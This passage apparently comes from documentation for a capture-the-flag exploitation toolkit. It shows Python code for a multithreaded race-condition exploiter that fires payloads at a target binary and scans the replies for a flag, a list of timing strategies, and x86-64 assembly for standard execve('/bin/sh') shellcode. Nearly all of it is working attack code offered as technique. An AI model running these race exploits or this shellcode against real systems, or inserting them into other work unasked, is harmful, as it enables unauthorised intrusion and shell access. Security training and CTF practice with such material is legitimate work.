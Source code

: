 ```python
                
                # Race condition specific payload
                race_payload = f"race_thread_{thread_id}".encode()
                p.sendline(race_payload)
                
                response = p.recvall(timeout=1)
                
                with self.lock:
                    if b"flag" in response.lower():
                        self.success = True
                        self.result = response
                
                p.close()
            except Exception:
                pass
    
    exploiter = RaceExploiter(self.binary_path)
    threads = []
    
    # Launch concurrent threads
    for i in range(num_threads):
        t = threading.Thread(target=exploiter.worker_thread, args=(i,))
        threads.append(t)
        t.start()
    
    # Wait for results
    for t in threads:
        t.join()
    
    return exploiter.success, exploiter.result
```

### Strategy
- **Multiple Threads** - Launch 50+ concurrent threads
- **Staggered Timing** - Each thread has slightly different delay
- **Race Window** - Target ~1ms window between operations
- **Automatic Detection** - Detect successful condition automatically

---

## Custom Shellcode Generation

**Technique**: Optimized shellcode for specific scenarios

### Implementation
```python
def generate_custom_shellcode(self):
    # Shellcode for execve("/bin/sh", NULL, NULL)
    shellcode = asm("""
        xor rax, rax
        push rax
        mov rbx, 0x68732f2f6e69622f
        push rbx
        mov rdi, rsp
        push rax
        push rdi
        mov rsi, rsp
        mov rdx, rax
        mov rax, 59
        syscall
    """)
    
    return shellcode
```